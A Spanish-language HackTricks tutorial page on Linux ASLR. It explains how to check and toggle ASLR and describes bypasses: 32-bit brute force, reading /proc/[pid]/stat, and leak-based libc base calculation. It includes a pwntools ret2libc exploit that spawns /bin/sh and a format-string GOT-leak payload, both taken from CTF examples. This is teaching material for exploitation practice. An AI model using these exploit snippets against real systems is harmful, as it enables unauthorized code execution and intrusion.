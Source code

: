 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información Básica

**Address Space Layout Randomization (ASLR)** es una técnica de seguridad utilizada en sistemas operativos para **aleatorizar las direcciones de memoria** utilizadas por los procesos del sistema y de la aplicación. Al hacerlo, se dificulta significativamente que un atacante prediga la ubicación de procesos y datos específicos, como la pila, el montón y las bibliotecas, mitigando así ciertos tipos de exploits, particularmente desbordamientos de búfer.

### **Verificando el Estado de ASLR**

Para **verificar** el estado de ASLR en un sistema Linux, puedes leer el valor del archivo `/proc/sys/kernel/randomize_va_space`. El valor almacenado en este archivo determina el tipo de ASLR que se está aplicando:

* **0**: Sin aleatorización. Todo es estático.
* **1**: Aleatorización conservadora. Las bibliotecas compartidas, la pila, mmap(), la página VDSO están aleatorizadas.
* **2**: Aleatorización completa. Además de los elementos aleatorizados por la aleatorización conservadora, la memoria gestionada a través de `brk()` está aleatorizada.

Puedes verificar el estado de ASLR con el siguiente comando:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Deshabilitar ASLR**

Para **deshabilitar** ASLR, debes establecer el valor de `/proc/sys/kernel/randomize_va_space` en **0**. Deshabilitar ASLR generalmente no se recomienda fuera de escenarios de prueba o depuración. Aquí te mostramos cómo puedes deshabilitarlo:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Puedes desactivar ASLR para una ejecución con:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Habilitando ASLR**

Para **habilitar** ASLR, puedes escribir un valor de **2** en el archivo `/proc/sys/kernel/randomize_va_space`. Esto generalmente requiere privilegios de root. Habilitar la aleatorización completa se puede hacer con el siguiente comando:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Persistencia a Través de Reinicios**

Los cambios realizados con los comandos `echo` son temporales y se restablecerán al reiniciar. Para hacer que el cambio sea persistente, necesitas editar el archivo `/etc/sysctl.conf` y agregar o modificar la siguiente línea:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Después de editar `/etc/sysctl.conf`, aplica los cambios con:
```bash
sudo sysctl -p
```
Esto asegurará que la configuración de ASLR se mantenga a través de reinicios.

## **Bypasses**

### Fuerza bruta de 32 bits

PaX divide el espacio de direcciones del proceso en **3 grupos**:

* **Código y datos** (inicializados y no inicializados): `.text`, `.data`, y `.bss` —> **16 bits** de entropía en la variable `delta_exec`. Esta variable se inicializa aleatoriamente con cada proceso y se suma a las direcciones iniciales.
* **Memoria** asignada por `mmap()` y **bibliotecas compartidas** —> **16 bits**, llamada `delta_mmap`.
* **La pila** —> **24 bits**, referida como `delta_stack`. Sin embargo, utiliza efectivamente **11 bits** (del 10º al 20º byte inclusive), alineados a **16 bytes** —> Esto resulta en **524,288 posibles direcciones de pila reales**.

Los datos anteriores son para sistemas de 32 bits y la entropía final reducida hace posible eludir ASLR al reintentar la ejecución una y otra vez hasta que el exploit se complete con éxito.

#### Ideas de fuerza bruta:

* Si tienes un desbordamiento lo suficientemente grande para alojar un **gran NOP sled antes del shellcode**, podrías simplemente forzar direcciones en la pila hasta que el flujo **salte sobre alguna parte del NOP sled**.
* Otra opción para esto en caso de que el desbordamiento no sea tan grande y el exploit se pueda ejecutar localmente es posible **agregar el NOP sled y el shellcode en una variable de entorno**.
* Si el exploit es local, puedes intentar forzar la dirección base de libc (útil para sistemas de 32 bits):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Si atacas un servidor remoto, podrías intentar **forzar la dirección de la función `usleep` de `libc`**, pasando como argumento 10 (por ejemplo). Si en algún momento el **servidor tarda 10s extra en responder**, encontraste la dirección de esta función.

{% hint style="success" %}
En sistemas de 64 bits, la entropía es mucho mayor y esto no es posible.
{% endhint %}

### Información Local (`/proc/[pid]/stat`)

El archivo **`/proc/[pid]/stat`** de un proceso siempre es legible por todos y **contiene información interesante** como:

* **startcode** & **endcode**: Direcciones por encima y por debajo con el **CÓDIGO** del binario
* **startstack**: La dirección del inicio de la **pila**
* **start\_data** & **end\_data**: Direcciones por encima y por debajo donde está el **BSS**
* **kstkesp** & **kstkeip**: Direcciones actuales de **ESP** y **EIP**
* **arg\_start** & **arg\_end**: Direcciones por encima y por debajo donde están los **argumentos cli**.
* **env\_start** &**env\_end**: Direcciones por encima y por debajo donde están las **variables de entorno**.

Por lo tanto, si el atacante está en la misma computadora que el binario que se está explotando y este binario no espera el desbordamiento de argumentos en bruto, sino de una **entrada diferente que se puede crear después de leer este archivo**. Es posible que un atacante **obtenga algunas direcciones de este archivo y construya desplazamientos a partir de ellas para la explotación**.

{% hint style="success" %}
Para más información sobre este archivo, consulta [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) buscando `/proc/pid/stat`
{% endhint %}

### Tener un leak

* **El desafío es dar un leak**

Si se te da un leak (desafíos CTF fáciles), puedes calcular desplazamientos a partir de él (suponiendo, por ejemplo, que conoces la versión exacta de libc que se utiliza en el sistema que estás explotando). Este ejemplo de explotación se extrae de [**el ejemplo de aquí**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (consulta esa página para más detalles):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Abusando de un desbordamiento de búfer, sería posible explotar un **ret2plt** para exfiltrar una dirección de una función de la libc. Ver:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Lectura Arbitraria**

Al igual que en ret2plt, si tienes una lectura arbitraria a través de una vulnerabilidad de cadenas de formato, es posible exfiltrar la dirección de una **función de libc** desde el GOT. El siguiente [**ejemplo es de aquí**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Puedes encontrar más información sobre la lectura arbitraria de cadenas de formato en:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Intenta eludir ASLR abusando de direcciones dentro de la pila:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
